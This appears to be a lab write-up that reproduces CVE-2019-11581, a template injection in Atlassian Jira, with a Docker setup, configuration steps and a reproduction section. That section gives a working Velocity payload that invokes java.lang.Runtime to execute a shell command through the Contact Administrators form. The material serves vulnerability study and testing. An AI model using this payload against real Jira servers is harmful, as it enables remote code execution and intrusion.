



Atlassian Jira Template Injection (CVE-2019-11581)¶
Atlassian Jira is a widely used project and issue tracking tool in enterprises, commonly applied in defect tracking, customer service, requirements collection, process approval, task tracking, project tracking, and agile management. A template injection vulnerability was discovered in multiple versions that allows remote code execution.
Affected versions include:
- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x - 7.13.x (Fixed in 7.6.14, 7.13.5)
- 8.0.x - 8.2.x (Fixed in 8.0.3, 8.1.2, 8.2.3)
References:
- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw
Environment Setup¶
Execute the following command to start Jira Server 8.1.0:
docker compose up -d
After the server starts, visit http://your-ip:8080 to begin the installation process:
- Switch to your preferred language
- Choose "Set it up for me" (first option)
- Apply for a Jira Server test license from Atlassian (do not select Data Center or Addons)
- Complete the installation process
Note: Installation may fail or take longer on machines with limited memory. It's recommended to use a machine with at least 4GB of RAM.

Add SMTP mail server at /secure/admin/AddSmtpMailServer!default.jspa:

Enable "Contact Administrators Form" in System Settings at /secure/admin/ViewApplicationProperties.jspa:

Create a sample project to complete the setup.
Vulnerability Reproduction¶
The PoC is similar to CVE-2019-3396. You can use the following payload:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
You can either:
- Run
poc.py, or - Submit the PoC directly at
/secure/ContactAdministrators!default.jspa


If you don't see any data in smtpd, check the email queue at /secure/admin/MailQueueAdmin!default.jspa:
